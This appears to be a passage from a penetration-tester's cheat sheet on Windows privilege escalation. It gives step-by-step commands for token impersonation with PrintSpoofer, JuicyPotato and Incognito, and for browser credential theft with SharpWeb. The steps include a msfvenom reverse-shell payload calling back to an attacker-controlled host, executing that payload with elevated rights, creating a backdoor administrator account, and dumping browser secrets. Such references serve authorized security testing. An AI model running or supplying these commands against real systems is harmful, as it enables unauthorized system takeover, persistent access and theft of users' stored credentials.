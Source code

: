 ## Token impersonation _(PrintSpoofer)_
- Works with  `SeImpersonatePrivilege` enabled.
- Prepare:
```bash
cp ~/pentesting-tools/printspoofer/PrintSpoofer64.exe ./printspoofer.exe
```
- [Copy to the target](#copy-files-fromto-the-target)
- Run:
```cmd
.\printspoofer.exe -i -c powershell.exe
```

## Token impersonation _(JuicyPotato)_
- Works with  `SeImpersonatePrivilege` or/and `SeAssignPrimaryTokenPrivilege` enabled _(use RoguePotato or PrintSpoofer on the latest Windows versions)_.
- Prepare:
```bash
cp ~/pentesting-tools/juicypotato/JuicyPotato.exe ./juicypotato.exe
cp ~/pentesting-tools/juicypotato/JuicyPotato86.exe ./juicypotato.exe # X86 version

msfvenom -p windows/shell_reverse_tcp LHOST=<my_ip> LPORT=443 -f exe > shell.exe
```
- [Copy to the target](#copy-files-fromto-the-target)
- Choose CLSID _(https://github.com/ohpe/juicy-potato/tree/master/CLSID)_.
- Run:
```cmd
.\juicypotato.exe -l 1337 -p .\shell.exe -t * -c <clsid>
```

## Token impersonation _(Incognito)_
- Works with  `SeImpersonatePrivilege` and `SeDebugPrivilege` enabled _(use RoguePotato or PrintSpoofer on the latest Windows versions)_.
- Prepare:
```bash
cp ~/pentesting-tools/incognito/incognito.exe ./incognito.exe
```
- [Copy to the target](#copy-files-fromto-the-target)
- Add privesc user with admin rights:
```cmd
.\incognito.exe add_user privesc 123456
.\incognito.exe add_localgroup_user Administrators privesc
```

## Retrieving browser files _(SharpWeb)_
- Prepare:
```bash
cp ~/pentesting-tools/sharpweb/SharpWeb.exe ./sharpweb.exe
```
- [Copy to the target](#copy-files-fromto-the-target)
- Run:
```cmd
.\sharpweb.exe all
```
